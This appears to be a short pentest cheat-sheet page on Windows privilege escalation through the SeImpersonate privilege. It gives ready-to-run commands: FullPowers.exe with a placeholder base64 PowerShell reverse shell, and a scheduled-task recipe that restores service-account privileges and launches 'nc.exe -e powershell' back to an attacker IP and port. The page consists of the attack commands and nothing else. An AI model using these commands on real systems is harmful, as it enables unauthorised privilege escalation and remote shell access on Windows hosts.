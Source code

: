 ```yaml
---
title: "SeImpresonate"
date: 2024-8-2
tags: ["SeImpresonate", "Windows", "potato", "privesc", "fullpower"]
---
```


### Abuse #1: Recover SeImpresonate

<div>

```console
.\FullPowers.exe -c "whoami /priv"
```

```console
# Revshell
.\FullPowers.exe -c "<POWERSHELL_3_BASE64>"
```

</div>

<small>*Ref: [FullPower](https://github.com/itm4n/FullPowers/releases/tag/v0.1)*</small>

### Abuse #2: Recover tokens via schedule task

<div>

```console
# Create a list of privileges 
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"
```

```console
# Create a Principal for the task 
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "<SERVICE_ACCOUNT>" -LogonType ServiceAccount -RequiredPrivilege $Privs
```

```console
# Create an action for the task 
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `C:\\Windows\\Tasks\\nc.exe -e powershell <LOCAL_IP> <LOCAL_PORT>`""
```

```console
# Create the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask" -Principal $TaskPrincipal
```

```console
# Start the task
Start-ScheduledTask -TaskName "SomeTask"
```

</div>
 
<br>